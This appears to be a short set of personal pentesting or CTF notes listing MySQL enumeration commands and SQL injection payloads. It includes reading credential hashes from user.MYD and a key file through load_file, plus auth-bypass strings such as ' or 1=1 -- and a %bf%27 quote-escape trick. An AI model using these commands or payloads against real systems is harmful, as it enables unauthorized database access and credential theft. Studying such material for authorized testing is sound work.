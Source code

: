 ```
mysql -u root
```

```
show databases;
use [DATABASE];
show tables;
select * from [TABLE];
```

```
mysql -u root -p password
```

```
find / -name mysql 2>/dev/null
```

```
strings /var/lib/mysql/mysql/user.MYD
```

```
select load_file('/var/lib/mysql-files/key.txt');
```

![[Pasted image 20230906083443.png]]

```
' 1 or 1=1 --'
```

```
' 1 or 1=1 #'
```

```
SELECT * FROM users WHERE username = 'input' LIMIT 1;
```

```
SELECT * FROM users WHERE username = '' OR 1=1; --' LIMIT 1;
```

```
%bf%27
```

```
%bf%27 or 1=1 --
```

```
' or '1'='1
```

